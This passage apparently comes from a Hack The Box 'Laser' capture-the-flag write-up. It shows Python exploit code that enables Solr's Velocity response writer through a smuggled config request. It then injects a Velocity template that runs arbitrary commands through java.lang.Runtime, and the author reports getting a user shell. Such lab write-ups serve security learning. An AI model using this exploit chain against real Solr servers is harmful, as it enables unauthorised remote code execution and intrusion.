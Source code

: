 ```python
def enc(data):
  return str(data.replace('%','%25').replace('\n','%0d%0a').replace('"','\\"'))

def url_get(header,req):
  send_url(enc(req) + enc(header))

def url_post(header,body):
  send_url(enc(header) + "%0d%0a%0d%0a" + enc(body)) 

  
body = """
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}""".strip().replace('\n','').replace(' ','')

header = """
POST /solr/staging/config HTTP/1.1
Host: localhost:8983
Content-Type: application/json
Content-Length: {}
""".format(len(body)).strip()

url_post(header,body)


header = ' HTTP/1.1\nHost: localhost:8983\n'
template = '%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec("PAYLOAD"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'
req = 'GET /solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=' + template.replace('PAYLOAD',payload).replace(' ','%20')

url_get(header,req)
```

![RevShell](/images/Hackthebox/Laser/RevShell.png)
BOOM! We got user shell :)
Let's enumerate the system for priviledge escalation.
